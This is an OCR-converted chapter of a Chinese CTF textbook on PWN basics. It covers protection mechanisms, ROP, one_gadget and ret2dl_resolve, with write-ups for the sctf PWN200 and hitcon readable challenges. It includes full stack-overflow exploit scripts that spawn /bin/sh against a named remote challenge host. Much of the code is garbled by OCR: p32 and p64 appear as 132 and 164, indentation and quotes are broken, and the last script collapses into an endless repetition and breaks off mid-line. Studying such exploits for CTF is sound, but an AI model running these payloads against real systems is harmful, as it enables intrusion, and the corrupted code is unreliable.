

???+ abstract "本章摘要"
    本章是 CTF PWN 方向的基础章，先介绍两类基本工具（逆向辅助类与漏洞利用类），再系统讲解程序保护机制（NX、ASLR、PIE、RELRO、STACK CANARY）与 PWN 漏洞类型；随后展开常见利用方法（shellcode、ROP、Magic_Addr/One_gadget、Return-to-dl resolve）与程序内存布局，最后以三道真题（x86 PWN200、x64 readable、x86 shaxian）为核心，完整演示 dl_resolve 等利用手法及其 exp 代码。
## 章节导航

上一篇：第10章 鉴权与访问控制
下一篇：第12章 PWN进阶
回到目录：[00-目录](00-目录.md)

## 11.1 基本工具

解答PWN题型最基本的工具可分为两类：逆向辅助类和漏洞利用类，下面将详细介绍这两类工具。

### 1. 逆向辅助类（分析程序）

IDA Pro：是一款很好用的反汇编工具，本书前面第9章介绍过，其中的反编译插件能够在很多情况下将代码还原到接近源码的水平。IDA的操作较为复杂，可以参考查阅工具书《IDA Pro权威指南》。

gdb：是一个功能强大的程序调试工具，是动态调试的必备利器，在第9章中也有介绍。另外，gdb包含了一个非常好的插件peda，在可视化和功能上都进行了拓展，方便使用者调试程序，下载地址：https://github.com/longld/peda。不过原版的peda并不支持Python3，后来有人对peda进行了扩展，使其能够兼容Python3，下载地址：https://github.com/zachriggle/peda。同类型的插件还有pwngdb、GEF（GDB Enhanced Feature），等等。近两年来用得比较多的，可以很方便地查看堆中各链表的状态，有利于分析堆的布局的工具，均可以在GitHub上搜索到。

### 2. 漏洞利用类（编写利用）

1）pwntools：一个CTF框架和漏洞利用开发库，由rapid设计，模块很丰富，方便使用者快速开发exploit，下载地址：https://github.com/Gallopsled/pwntools。

2）zio：蓝莲花队员zTrix开发，使用起来简单便利，下载地址：https://github.com/zTrix/zio。

3）Ropgadget：找寻程序中用来组装rop链的gadget，支持多种架构，下载地址：https://github.com/JonathanSalwan/ROPgadget。

4）checksec：查询程序的保护机制的开启情况（这个已经内嵌在peda里面了）。

5）one_gadget：分析定位libc中获取shell的magic地址，在满足特定条件的情况下，只需要一个地址即可获取shell，由david942j开发，在GitHub上可以下载到。

6）seccomp-tools：分析程序中的seccomp安全机制开启的具体情况，由david942j开发，在GitHub上可以下载到。

???+ tip "本节要点"
    1. PWN 工具分两类：逆向辅助类（分析程序，如 IDA Pro、gdb+peda）与漏洞利用类（编写 exp，如 pwntools、zio）；
    2. peda 原版不支持 Python3，用 zachriggle/peda 可兼容 Python3；同类还有 pwngdb、GEF；
    3. 漏洞利用类中 ROPgadget 找 gadget、checksec 查保护、one_gadget 定位 libc 魔数、seccomp-tools 分析沙箱；
    4. one_gadget 与 seccomp-tools 均由 david942j 开发。
## 11.2 保护机制

程序的保护机制具体包括如下内容。

1）==NX==：数据执行保护，即DEP（Data Execution Prevention），是指禁止程序在非可执行的内存区（non-executable memory）中执行指令。在80x86体系结构中，操作系统的内存管理是通过页面表（page table）存储方式来实现的，其最后一位就是NX位，0表示允许执行代码，1表示禁止执行代码。一般来说，NX主要是防止直接在栈（stack）和堆（heap）上运行shellcode代码。gcc默认开启不可执行栈功能，添加编译选项-z execstack即可开启栈可执行功能。

2）==ASLR==：地址空间随机化，/proc/sys/kernel/randomize_va_space里的值可以控制系统级的ASLR，使用root权限可以进行修改，有三个值可以设置，具体说明如下。

- 0：关闭ASLR。
- 1：mmap base、stack、vdso page将随机化。这意味着".so"文件将被加载到随机地址。链接时指定了-pie选项的可执行程序，其代码段加载地址将被随机化。配置内核时如果指定了CONFIG_COMPAT_BRK，则randomize_va_space默认为1，此时heap没有随机化。
- 2：在1的基础上增加了heap随机化。配置内核时如果禁用CONFIG_COMPAT_BRK，则randomize_va_space默认为2。ASLR可以保证在每次程序加载的时候自身和所加载的库文件都会被映射到虚拟地址空间的不同地址处。

3）PIE：代码段随机化，具体见ASLR。

4）==RELRO==：重定位，一般会分为两种情况，即partial relro和full relro，具体区别就是前者重定位信息（如got表）可写，而后者不可写。

5）==STACK CANARY==：栈溢出保护，gcc编译程序默认开启，添加编译选项-fno-stack-protector会关闭程序的stack canary栈保护。

???+ tip "本节要点"
    1. NX 用 page table 最后一位（NX 位）禁止在栈/堆上执行代码；0 允许、1 禁止；-z execstack 开启栈可执行；
    2. ASLR 由 /proc/sys/kernel/randomize_va_space 控制，取值 0（关闭）/1（mmap、stack、vdso）/2（再随机化 heap）；
    3. PIE 是代码段随机化，RELRO 分 partial（got 可写）与 full（got 不可写）；
    4. STACK CANARY 是栈溢出保护，-fno-stack-protector 关闭。
## 11.3 PWN类型

一般来说，PWN题型中的漏洞类型主要可分为栈漏洞、堆漏洞、格式化字符串漏洞、整型漏洞、逻辑漏洞等。可能有些漏洞类型的归类不太严谨，这里只是为了方便叙述进行了统一。很多时候，这些漏洞类型需要相互结合，构造出复杂条件（在CTF中，要看出题者的构造；在实际情况中，则要看程序的具体环境）。同样这些漏洞类型的利用也可以相互转化，以便写出更好、更快的利用脚本（需要看解题者的思路）

就难易程度来说，==通常情况下，栈漏洞、格式化字符串漏洞、整型漏洞的难度要低于堆漏洞、逻辑漏洞==。就考查点来说，栈漏洞、堆漏洞、格式化字符串漏洞、整型漏洞偏重于基本功，逻辑漏洞则偏重于思维能力。

???+ tip "本节要点"
    1. 漏洞类型分五类：栈漏洞、堆漏洞、格式化字符串漏洞、整型漏洞、逻辑漏洞；
    2. 分类不严谨，仅为了方便叙述；漏洞常相互结合、利用方式可相互转化；
    3. 难度上栈/格式化/整型低于堆/逻辑；考查点上栈/堆/格式化/整型偏基本功，逻辑偏思维。
## 11.4 常见利用方法

### 1. shellcode

一般是指获取shell的代码（也有功能复杂的，专门突破某些限制的情况），针对数据区未开启可执行保护NX，可以将==shellcode==直接布置在堆栈等可写可执行区域，然后劫持控制流，跳转过去即可。另外，还可以通过其他手段（如rop）将数据区的NX关闭（mprotect设置页属性），或者将代码部分的页属性设置为可写，并在这里布置shellcode，然后执行shellcode。

Linux x86下获取shell的shellcode，如图11-1所示。Linux x64下获取shell的shellcode，如图11-2所示。

{ width="100%" }


<div style="text-align: center;">图11-1 Linux x86 shellcode示例</div>

{ width="100%" }


<div style="text-align: center;">图11-2 Linux x64 shellcode示例</div>


shellcode的获取途径有很多，可以直接调用pwntools里面的shellcraft模块来生成，如图11-3所示。

{ width="100%" }


<div style="text-align: center;">图11-3 shellcode生成方法</div>


更多的shellcode可以去网上查询（http://shell-storm.org/shellcode/），另外，pwntools也提供了shellcraft模块，集成了针对大多数平台的shellcode。

### 2. rop

==rop==（return-oriented programming）即返回地址导向编程，通常是利用动态链接库和可执行文件中可利用的指令片段（gadget），这些指令片段均以ret指令结尾，即用ret指令实现指令片段执行流的衔接。一般针对程序开启了NX属性，但可以控制栈上数据的情况，利用栈结构（可参考第12章中的栈结构介绍）中的返回地址，可以实现控制流的构造。

最初的rop示意如图11-4所示（x86）。

{ width="100%" }


<div style="text-align: center;">图11-4 原始rop示意图</div>


执行完gadget1，通过ret返回，进入gadget2，从而使得所有的gadget得到有序执行。

为了简化rop的实现，很多时候有很多libc库函数可以直接利用，从而出现了ret2libc。在CTF比赛中，大部分情况都是直接利用已有的很多函数来构造rop。

参照12.1.2节的传参规则，两类rop的形式分别如下。

Linux x64下rop构造示意图如图11-5所示。

Linux x86下rop构造示意图如图11-6所示。

{ width="100%" }


<div style="text-align: center;">图11-5 x64架构rop示意图</div>

{ width="100%" }


<div style="text-align: center;">图11-6 x86架构rop示意图</div>


其中，func_ptr是一些要调用的函数的地址，而arg1、arg2……则是该函数所需要的参数，p_ret是一些pop_ret的gadget地址，gadget的形式如pop_eax、pop_ebx、ret。pop的个数和参数保持一致。rop的原理与函数栈的实现机制有关，具体见第12章中的函数栈。其他架构系统可根据函数调用时参数的传递规则来具体构造。

### 3. Magic_Addr

Magic_Addr（又称One_gadget）是指专门通过一个地址获取shell的地址，一般位于system函数的实现代码中（可以参考david942j的one_gadget，GitHub上已经发布了查找one_gadget的工具），此时需要根据具体情况进行调试。

在libc的system函数中，有多处调用了execve("/bin/sh","sh",env)函数对应的反编译代码和反汇编代码，如图11-7和图11-8所示。

```c
if (!v7)
{
    v25 = "sh";
    v26 = "-c";
    v28 = 0;
    v27 = v21;
    sigaction(2);
    sigaction(3);
    sigprocmask(2, &v29, 0);
    dword_1AA620 = 0;
    dword_1AA624 = 0;
    execve(/bin/sh", &v25, environ);
    exit(127);
}
```

[OCR存疑：代码中 `execve(/bin/sh", ...` 疑为 `execve("/bin/sh", ...`，原文缺左引号。]

<div style="text-align: center;">图11-7 system调用反编译代码</div>


{ width="100%" }


<div style="text-align: center;">图11-8 system调用反汇编代码</div>

关于定位，可使用one-gadget工具进行分析，也可以参考更为详细的资料，如{HCTF-2016}5-days的官方writeup。

### 4. Return-to-dl resolve

核心思想是利用_dl_runtime_resolve函数解析出system函数的地址，通常在没有提供libc库的情况下使用。

其适用情况需要满足如下三个条件。

- 未给出libc库。
- 没有开启PIE保护，如果开启了PIE保护，则还需要通过泄露获取基地址。
- 没有开启FULL RELRO。

__dl_runtime_resolve函数定义在glibc源码的sysdeps/i386/dl-trampoline.S中，其中调用了__dl_fixup；__dl_fixup函数定义在__elf/dl-runtime.c中，其代码中使用了各种宏，因此可读性较差，如图11-9所示。

{ width="100%" }


<div style="text-align: center;">图11-9 dll_fixup函数定义</div>


该利用方法需要用到elf结构的动态节信息，如SYMTAB、STRTAB、JMPREL、VERSYM，可通过readelf - d./proc命令查看这几个信息，如图11-10所示。

{ width="100%" }


<div style="text-align: center;">图11-10 elf文件动态节信息</div>


#### (1) SYMTAB

SYMTAB中为E1fSym的数组，代码如下：

```python
class ElfSym(vstruct.VStruct):
    def __init__(self, bits=32):
        super(ElfSym, self).__init__(())
        if bits == 32:
            self.st_name = v_uint32()
            self.st_value = v_uint32()
            self.st_size = v_uint32()
            self.st_info = ElfStInfo()  # 8 bit
            self.st_other = v_uint8()

self.st_shndx = v_uint16(enum=ST_NDX)
else:
    self.st_name = v_uint32()
    self.st_info = ElfStInfo() # 8 bit
    self.st_other = v_uint8()
    self.st_shndx = v_uint16(enum=ST_NDX)
    self.st_value = v_uint64()
    self.st_size = v_uint64()
```

[OCR存疑：代码中 `E1fSym` 疑为 `ElfSym`。]

#### (2) JMPREL

对应的类型可分为两种，32位通常为ElfRel类型的数组，64位通常为ElfRela类型的数组，代码如下：

```python
class ElfRel(vstruct.VStruct):
    def __init__(self, bits=32):
        super(ElfRel, self).__init__(
            if bits == 32:
                self.r_offset = v_uint32()
                self.r_info = ElfRInfo()  # 32 bit
        else:
            self.r_offset = v_uint64()
            self.r_info = ElfRInfo()  # 64 bit

class ElfRela(vstruct.VStruct):
    def __init__(self, bits=32):
        super(ElfRela, self).__init__(
            if bits == 32:
                self.r_offset = v_uint32()
                self.r_info = ElfRInfo()  # 32 bit
            self.r_append = v_uint32()
        else:
            self.r_offset = v_uint64()
            self.r_info = ElfRInfo()  # 64 bit
            self.r_append = v_uint64()
```

#### （3） STRTAB

STRTAB中为具体的字符串。ElfSym中的st_name为在STRTAB中的偏移。

#### (4) VERSYM

每2字节为一项，对应每个符号的版本信息，通常为0、1、2。

_dl_fixup的伪代码（64位下的）具体如下：

```python
def dl_fixup(link_map, index):
    relro = jmpre1 + 0x18 * index
    r_sym = l32(relro[12:16])
    sym = symtab + 0x18 * r_sym
    assert(l8(relro[4:8]) == 7) // TYPE
    if (l8(sym[5:6]) & 3 == 0)
    {
        // about vernum
        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL) // link_map + 0x1c8
        {
            const ElfW(Half) *vernum = (const void *)D_PTR (1, l_info[VERSYMIDX (DT_VERSYM)]);
            ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
        }

        dl_lookup_symbol_x(strtab + l32(sym[0:4]))
    }
```

当能控制程序向bss区域写任意内容时，通过`index`值，可以将伪造的relo结构放到bss上。通过设置relo中的第12～16字节，可以将伪造的sym结构放到bss上。为了到达符号解析处，还需要满足：

(18(relro[4:8])==7)
(18(sym[5:6])&3 == 0)

最后，程序要获取对应符号的vernum，大致为读取内存versym+2*r_sym的值。在64位系统中，这个地址通常为无效内存地址，因此会发生段错误。这里有两种办法绕过，具体如下。

1）修改link_map+0x1c8为0，使程序不进入if循环。不过这种方法的前提是需要泄露出link_map的地址，在aslr的系统中，link_map的地址是不固定的。

2）修改动态节中versym的值。动态节位于数据段中，动态节是否具有写权限与编译有关。

- RELRO Partial 动态节将位于只读内存中，不可改写。
- 未开启任何RELRO，具有写权限。

roputils（在GitHub上可以下载）中已经封装了对dl_resolve方法的利用模块（ROP），主要涉及如下两个函数：

dl_resolve_call(self, base, *args)
dl_resolve_data(self, base, name)

其中，将要解析的libc函数名称name以及伪造的结构体位置base传给dl_resolve_data函数，将生成的数据写入base处，再调用dl_resolve_call函数即可，其参数是伪造的结构体位置base和libc函数参数。下面举例说明。

通过栈转移后在bss上执行rop，以下Payload存在于bss的target_addr上，当前rsp即为target_addr，以下代码即可用于执行system("/bin/sh"):

```python
payload = ""
payload += rop.dl_resolve_call(target_addr + 0x30, target_addr + 0x20)
payload = payload.ljust(0x20, "\x00')
payload += rop.string("/bin/sh\x00").ljust(0x10, 'a')
payload += rop.dl_resolve_data(target_addr + 0x30, 'system')
```

[OCR存疑：代码中 `payload.ljust(0x20, "\x00')` 的右引号疑为左半引号 `'` 的 OCR 误识别。]

具体请参见真题解析11.6。

???+ tip "本节要点"
    1. shellcode：数据区未开 NX 时布置在可写可执行区域直接跳转；否则用 rop 调 mprotect 关 NX 或将代码段改为可写；
    2. ROP 用 ret 结尾的 gadget 衔接控制流，NX 开启时利用；ret2libc 利用 libc 现成函数；
    3. Magic_Addr（One_gadget）在 system 实现中一个地址拿到 shell，有现成定位工具；
    4. Return-to-dl resolve 用 _dl_runtime_resolve 解析 system 地址，需未给 libc、未开 PIE、未开 FULL RELRO 三条件；核心是伪造 SYMTAB/STRTAB/JMPREL/VERSYM 与 reloc/sym 结构。
## 11.5 程序内存布局

程序启动时，加载器会将程序文件数据加载到内存里，在运行过程中，程序也会开辟部分动态内存。在程序运行的生命周期中，内存中比较重要的四部分数据是程序数据、堆、库数据、栈。另外，内核空间也会映射到程序内存中，但是CTF中很少会涉及，为了简化，这部分不再叙述，读者掌握了最基本的PWN知识后，可以自行扩展。

程序数据一般映射在内存的较低地址处，然后依次为堆块数据、库数据及栈等，其中还映射了一部分起保护作用的不可访问区域，布局图如图11-11所示。

{ width="100%" }


<div style="text-align: center;">图11-11 程序内存布局</div>


程序内存布局中的各部分的主要内容说明如下。

- 程序数据 (Proc)

程序数据主要包含三部分，其中代码段（Text段）主要用来存放可执行文件的代码指令，是可执行程序在内存中的镜像，代码段一般是只读的；数据段（Data段）则用来存放可执行文件中已经初始化的变量，包括静态分配的变量和全局变量等；BSS段主要包含程序中未初始化的全局变量，在内存中BSS段全部置零。

- 堆（Heap）

堆主要用于存放进程运行过程中动态申请的内存段。进程调用malloc、alloca、new等函数来申请内存，利用free、delete等函数释放内存。这部分的大小不固定，以方便程序灵活使用内存。有关于堆的更多知识，请参考第13章。

- 库数据（Memory Mapping）

这部分数据很多是映射的系统库文件，其中比较重要的就是libc库，很多程序所使用的系统函数都会动态地链接到libc库中去。

- 栈（Stack）

栈存放程序临时创建的局部变量，包括函数内部的临时变量和调用函数时压入的参数。由于栈具有后进先出的特点，因此可以很方便地用来保存和恢复函数调用现场。关于栈的更多相关知识，请参照第12章。

x86程序的内存布局实例如图11-12所示。

x64程序的内存布局实例如图11-13所示。

{ width="100%" }


<div style="text-align: center;">图11-12 x86程序内存布局</div>


{ width="100%" }


<div style="text-align: center;">图11-13 x64程序内存布局</div>

???+ tip "本节要点"
    1. 内存四重要部分（低地址到高地址）：程序数据、堆、库数据、栈，另有内核空间与保护性不可访问区域；
    2. 程序数据含 Text（只读代码）、Data（已初始化变量）、BSS（未初始化全局变量，置零）；
    3. 堆动态申请（malloc/new）与释放（free/delete），大小不固定；库数据含 libc 等系统库；栈后进先出保存调用现场。
## 11.6 真题解析

接下来主要介绍关于dl_resolve的各种真题及其解析。

使用dl_resolve解题的主要情景是找不到对应的libc.so文件（例如出题者使用自己编译的libc.so文件），因此即使能够泄露信息也无法计算出libc.so的基址。这里共分析了3个例子，其中两个逻辑较为简单，一个逻辑较为复杂，对这3个例子分别尝试了dl_resolve和其他解法，以便于对比分析。

### 1. x86的情况（2015-sctf之PWN200）

这道题的逻辑较为简单，IDA反编译结果如图11-14所示。

```c
ssize_t result; // eax@3
char stack_buff[128]; // [sp+1Ch] [bp-9Ch]@1
char buf[16]; // [sp+9Ch] [bp-1Ch]@1
size_t nbytes; // [sp+ACh] [bp-Ch]@1

nbytes = 16;
*(_DWORD *)buf = 0;
*(_DWORD *)&buf[4] = 0;
*(_DWORD *)&buf[8] = 0;
*(_DWORD *)&buf[12] = 0;
memset(stack_buff, 0, sizeof(stack_buff));
write(1, "input name:", 0xCu);
read(0, buf, nbytes + 1);
if (strlen(buf) - 1 <= 9 && !strncmp("syclover", buf, 8u)) {
    write(1, "input slogan:", 0xEu);
    read(0, stack_buff, nbytes);
    result = write(1, stack_buff, nbytes);
}
else
{
    result = -1;
}
```

<div style="text-align: center;">图11-14 PWN200的反编译代码</div>


从图11-14中可以看出，漏洞逻辑为buf的大小只有16字节，然而在read的时候却读了nbytes+1=17字节，所以最后一字节覆盖了其后的nbytes大小。如果覆盖成0xff，则会导致后面在读取stack_buff的时候读取最大长度为255字节，而其真实大小只有128字节，这会覆盖栈的ebp和eip。

1）在提供libc的情况下，解题思路具体如下。

编写一段rop的shellcode，泄露read函数的地址，然后根据libc中read和system的相对偏移，计算出system的真实地址，然后修改strien的got表，将其改成system的地址，最后进入main函数，传入参数为/bin/sh即可。

[OCR存疑：正文中 `strien` 疑为 `strlen`。]

shellcode如图11-15所示。

```python
shellcode = "
shellcode += 132(write_plt) + 132(ppp_ret) + 132(1) + 132(read_got) + 132(4)
shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(strlen_got) + 132(4)
shellcode += 132(main_addr)

ebp = 132(0x01010101)

payload = 'a' * 0x90 + 132(0x4) + 'a' * 8 + ebp + shellcode
```

[OCR存疑：代码中 `132(...)` 疑为 `p32(...)`（pwntools 封包函数）的 OCR 误识别。]

<div style="text-align: center;">图11-15 PWN200利用构造</div>


整个利用的exp代码如下：

```python
from zio import *
from pwn import *
# target = "./pwn200"
target = ("218.2.197.235", 10101)
def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m,
    print_write = w_m)
    return io
def pwn(io):
    io.gdb_hint()
    io.read_until("input name:")
    name = "syclover\x00".ljust(17, "\xff")
    io.write(name)
    io.read_until("input slogan:")
    p_ret = 0x080485c0
    pp_ret = 0x080485bf
    ppp_ret = 0x08048646
    read_got = 0x08049850

strlen_got = 0x08049858
read_plt = 0x08048360
write_plt = 0x080483A0
main_addr = 0x080484AC
shellcode = ""
shellcode += 132(write_plt) + 132(ppp_ret) + 132(1) + 132(read_got) + 132(4)
shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(strlen_got) + 132(4)
shellcode += 132(main_addr)
ebp = 132(0x01010101)
payload = 'a' * 0x90 + 132(0x4) + 'a' * 8 + ebp + shellcode
print len(payload)
io.write(payload)
io.read(5)
data = io.read(4)
print [c for c in data]
read_addr = 132(data)
print "read_addr:", hex(read_addr)
libc_info = ELF("./libc.so.6")
libc_info = ELF("./libc_on_server.so.6")
offset_system =libc_info.symbols["system"]
offset_read =libc_info.symbols["read"]
#remote
#offset_read = 0x000e0890
#offset_system =0x00041260
print hex(offset_system)
print hex(offset_read)
libc_addr = read_addr - offset_read
system_addr =libc_addr + offset_system
io.write(132(system_addr))
io.read_until("input name:")
io.write("/bin/sh;")
io.interact()
io = get_io(target)
pwn(io)
```

[OCR存疑：代码中 `132(...)` 疑为 `p32(...)`（pwntools 封包函数）的 OCR 误识别。]

这道题目，最开始在sctf中是提供了libc的，所以可以直接这样求解，然而在xctf_oj中将该题目当成练习题后，提供的libc不配套，使用同样的方法时发现无法知道libc的信息，所以转而利用dl_resolve进行求解。

2）在未提供 $ I_{1}b_{c} $的情况下，解题思路为 $ dl_{1}굿굿 $。

[OCR存疑：此句中的 `$ I_{1}b_{c} $` 疑为 `libc`，`$ dl_{1}굿굿 $` 疑为 `dl_resolve`，均为 OCR 误识别。]

使用dl_resolve的时候，需要将伪造的reloc信息和符号信息全部填写到内存中去，然后调用plt0进行解析即可。

将相关伪造信息写入到bss段的shellcode中，如图11-16所示。

{ width="100%" }


<div style="text-align: center;">图11-16 利用rop布局内存数据</div>


然后调用plt0的shellcode，如图11-17所示。

{ width="100%" }


<div style="text-align: center;">图11-17 触发shellcode的关键代码</div>


对应的exp代码如下：

```python
#---*-- coding:utf8 --*--
author__ = "pxx"
from zio import *

from pwn import *
target = "./pwn200"
target = ("218.2.197.235", 10101)
#x86
#Elf32_Rel *reloc = JMPREL + index
#Elf32_Sym *sym = &SYMTAB[( (reloc->r_info)>>8) ]
#i.e. *sym = DT_SYMTAB + (reloc->r_info)*4*4
#assert (( (reloc->r_info)&0xff) == 0x7 ) type
#if (sym->st_other) & 3 == 0 ) if not resolved
#uint16_t ndx = VERSYM[( reloc->r_info) >> 8] ndx=0->
local symbol
#r_found_version *version = &l->l_version[ndx]
#name = STRTAB + sym->st_name

def generate_x86_reloc_data(index, got_plt):
    return 132(got_plt) + 132(0x07 + (index<<8))
def generate_x86_sym_data(name_offset):
    return 132(name_offset) + 132(0) + 132(0x12)
DT_JMPREL = 0x80482f8 #offset, info
DT_STRTAB = 0x8048260 #strings array
DT_SYMTAB = 0x80481e0 #st_name, ...st_info, s_other
DT_VERSYM = 0x80482c0
PLT0 = 0x08048350
bss_addr = 0x08049870

#x86
system_got = 0x08049a10

#reloc_index
#0x08049870 = 0x80482f8 + 0x1578
reloc_index = 0x1578
#set jmpre1 + index where index is reloc_index

#0x080498a0 = 0x80481e0 + 0x16c * 16 not useful
#0x080499c0 = 0x80481e0 + 0x17e * 16
reloc_data_addr = 0x08049870
reloc_data = generate_x86_reloc_data(0x17e, system_got)
#write reloc_data in 0x08049870

#0x080499e0 = 0x8048260 + 0x1780
sym_data_addr = 0x080499c0
sym_data = generate_x86_sym_data(0x1780)
#write sym_data in 0x080499c0

func_name_addr = 0x080499e0

#func_name_addr = 0x08049870 + 0x120 = 0x080499c0
func_name = "system\x00"
#write system in func_name_addr

#bin_str_addr = bss_addr + 0x140
bin_str_addr = 0x080499f0
bin_str = "/bin/sh;\\x00"
#write system in bin_str_addr

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m,
    print_write = w_m)
    return io

def pwn(io):
    io.gdb_hint()
    io.read_until("input name:")
    name = "syclover\x00".ljust(17, "\xff")
    io.write(name)
    io.read_until("input slogan:")
    p_ret = 0x080485c0
    pp_ret = 0x080485bf
    ppp_ret = 0x08048646
    read_got = 0x08049850
    strlen_got = 0x08049858
    read_plt = 0x08048360
    write_plt = 0x080483A0
    main_addr = 0x080484AC
    shellcode = ""
    shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(reloc_data_addr) + 132(len(reloc_data))
    shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(sym_data_addr) + 132(len(sym_data))
    shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(func_name_addr) + 132(len(func_name))

    shellcode += 132(read_plt) + 132(ppp_ret) + 132(0) + 132(bin_str_addr) + 132(len(bin_str))
    shellcode += 132(main_addr)
    ebp = 132(0x01010101)
    payload = 'a' * 0x90 + 132(0x4) + 'a' * 8 + ebp + shellcode
    print len(payload)

io.write(payload)
io.write(reloc_data)
io.write(sym_data)
io.write(func_name)
io.write(bin_str)
#next time
io.read_until("input name:")
name = "syclover\x00".ljust(17, "\xff")
io.write(name)
io.read_until("input slogan:")
shellcode = ""
shellcode += 132(PLT0) + 132(reloc_index) +
132(main_addr) + 132(bin_str_addr)
payload = 'a' * 0x90 + 132(0x4) + 'a' * 8 + ebp + shellcode
print len(payload)
io.write(payload)
io.interact()
io = get_io(target)
pwn(io)
```

[OCR存疑：代码中 `132(...)` 疑为 `p32(...)`（pwntools 封包函数）的 OCR 误识别。]

### 2. x64的情况（2015-hitcon-PWN400之readable）

该题的逻辑如图11-18所示。

```c
ssize_t main_4004FD()
{
    char buf[16]; // [sp+0h] [bp-10h]@1

    return read(0, buf, 32ul);
}
```

<div style="text-align: center;">图11-18 PWN400的反编译代码</div>


该题的漏洞一目了然，buf 只有 16 字节，然而可以读取 32 字节，覆盖 rbp 和 rip，通过覆盖 rbp 可以转移栈，通过覆盖 rip 可以将其改成 main 函数的入口，从而对漏洞实现多次利用，达到任意地址写的目的的。由于只有任意地址写权限，而没有读权限，因此几乎无法泄露信息，利用常规方法则会比较难。

#### 解题方法一

爆破获取read函数中调用system_call的偏移，将eax修改成0x3b，然后将/bin/sh压入栈，并将rdi指向它，同时将rsi和rdx分别设置为0，相当于调用了execv1("/bin/sh",0,0)，从而实现shell的获取（ppp当时采用的就是这种方法）。

爆破逻辑可这样理解。由于read的真实实现类似于：

```nasm
mov eax, 0x0; read的系统调用号
.....
call system_call
.....
```

同理，write的实现如下：

```nasm
mov eax, 0x1; write的系统调用号
.....
call system_call
.....
```

execv1的实现如下:

```nasm
mov eax, 0x3b; execvl的系统调用号.....
```

因此，如果知道了调用system_call距离read函数的偏移，那么直接将read的got表的最后一位修改成其他的系统调用号，就可以执行其他的函数功能了。爆破的时候利用write的函数进行打印测试，如果能够正常打印，则说明偏移是正确的，否则程序将读不到相关信息。

爆破的shellcode只覆盖read函数的最低位，然后调用read（相当于调用write），打印相关的头部信息，如图11-19所示。

{ width="100%" }


<div style="text-align: center;">图11-19 rop利用代码</div>


判断逻辑，只将一个偏移dis（爆破，依次累加尝试）写入，然后判断读取的信息是否正确，如图11-20所示。

```python
io.write('0'*0x10 + 164(buff_addr - 0x8) + 164(leave_ret))
io.write(chr(dis))
data = io.read(4)
#data = io.read(4)
print [c for c in data]
if data == "\x7fELF":
    print "find it", ":(", hex(dis)
    raw_input()
```

<div style="text-align: center;">图11-20 爆破的判断逻辑</div>


得到正确的偏移之后，就可以直接利用了，exp代码如下：

```python
__author__ = "pxx"
from zio import *
target = "./readable"
def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def brute_syncall_addr(io, dis):
    bss_addr = 0x600910
    buff_addr = bss_addr + 0x20
    main_addr = 0x400505
    head_addr = 0x0000000000400000
    p_rdi_ret = 0x0000000000400593
    pp_rsi_r15_ret = 0x0000000000400591
    set_args_addr = 0x40058A
    call_func_addr = 0x400570
    read_got = 0x00000000006008e8
    leave_ret = 0x400520
    rop = ""
    rop += 164(set_args_addr)
    #rbx, rbp, r12, r13, r14, r15
    rop += 164(0x0) + 164(0x01) + 164(read_got) + 164(0x01) + 164(read_got) + 164(0x00) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 164(read_got) + 